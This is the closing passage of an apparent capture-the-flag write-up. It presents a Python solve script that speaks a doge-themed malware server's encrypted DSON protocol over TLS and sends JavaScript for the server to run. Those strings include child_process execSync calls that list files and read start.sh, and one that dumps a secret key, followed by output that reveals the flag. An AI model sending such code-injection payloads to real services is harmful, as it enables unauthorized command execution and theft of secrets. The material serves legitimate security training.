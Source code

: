     aes = AES.new(get_key(password), mode=AES.MODE_CBC, iv=AES_IV)
    return aes.encrypt(pad(message, AES.block_size))

def decrypt(message, password):
    aes = AES.new(get_key(password), mode=AES.MODE_CBC, iv=AES_IV)
    return unpad(aes.decrypt(message), AES.block_size)

def hmac(message, password):
    h = HMAC.new(get_key(password), digestmod=SHA256)
    h.update(message)
    return h.digest()

def wrap(message):
    encrypted = encrypt(message, AES_PASSWORD)
    msg_hmac = hmac(encrypted, HMAC_PASSWORD)
    payload = b''
    payload += struct.pack('>I', len(msg_hmac)+len(encrypted))
    payload += msg_hmac
    payload += encrypted
    return payload

def recv(connection):
    message_len = struct.unpack('>I', connection.read(4))[0]
    message = connection.read(message_len)
    msg_hmac, msg_encrypted = message[:32], message[32:]
    msg_decrypted = decrypt(msg_encrypted, AES_PASSWORD)
    dson_str = msg_decrypted.decode('ascii').replace('next', '.').replace('undefined', '""')
    print(dson_str)
    return dson_str

context = ssl.create_default_context(ssl.Purpose.SERVER_AUTH, cafile='doge.ca.pem')
context.load_cert_chain(certfile='doge.client.pem', keyfile='doge.client.key')
context.check_hostname = False

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn = context.wrap_socket(s, server_side=False)
conn.connect((HOST, PORT))

print(conn.getpeercert())
conn.send(wrap(dson.dumps({'dogesez':'ping'}).encode('ascii')))
print(recv(conn))

#doge_code = """Array.from(secrit_key).map(x => x.toString(16)).join('')"""
doge_code = """Buffer.from(secrit_key).toString('base64')"""
doge_code = """cp.execSync('ls -al').toString()"""
doge_code = """cp.execSync('cat start.sh').toString()"""
#doge_code = """secrit_key.length"""

conn.send(wrap(dson.dumps({'dogesez':'do me a favor','ohmaze':doge_code}).replace('", "', '" next "').encode('ascii')))
print(recv(conn))
{% endhighlight %}

Running this against the server gives us the flag.

{% highlight bash %}
$ python3 solve.py
such "dogesez" is "welcome" . "ohmaze" is "#!/bin/sh
#!/bin/bash
echo "Such Starting Such Doge Such Malware Wow"
export CRYPTZ='CS{such_Pr0t0_is_n3tw0RkS_w0W}'
exec /home/user/malware
" wow
{% endhighlight %}
